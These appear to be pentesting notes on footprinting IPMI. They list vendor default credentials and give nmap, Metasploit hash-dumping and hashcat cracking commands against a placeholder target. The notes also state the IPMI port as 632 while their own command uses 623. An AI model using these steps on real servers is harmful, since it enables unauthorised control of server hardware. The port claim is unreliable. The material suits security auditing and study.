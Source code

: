 ```yaml
---

---
```

---
### Intelligent Platform Management Interface (IPMI)

IPMI is a hardware-based host management system for system monitoring and administration. It operates independently of the OS, firmware, BIOS or CPU providing low-level management capabilities. **Port 632/UDP** is used for IPMI communication.

Common default credentials
	- Dell iDRAC: `root`:`calvin`
	- HP iLO: `administrator`: Randomized 8-char string (uppercase/numbers)
	- Supermictro IPMI: `ADMIN`:`ADMIN`


#### Footprinting IPMI Services
---
1. Detecting IPMI services
```bash
	nmap -sU --script ipmi-version -p 623 <target>
```

2. Metasploit scanning
```bash
	use auxiliary/scanner/ipmi/ipmi_version
	set rhost <target_ip>
```

3. Dumping IPMI hashes
```bash
	use auxiliary/scanner/ipmi/ipmi_dumphashes
	set rhost <target_ip>
```

4. Offline Hash Cracking
	- Use hashcat (mode `7300` for IPMI hashes)
```bash
	hashcat -m 7300 <hashfile> <wordlist>
```

- For HP iLO default password
```bash
	hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```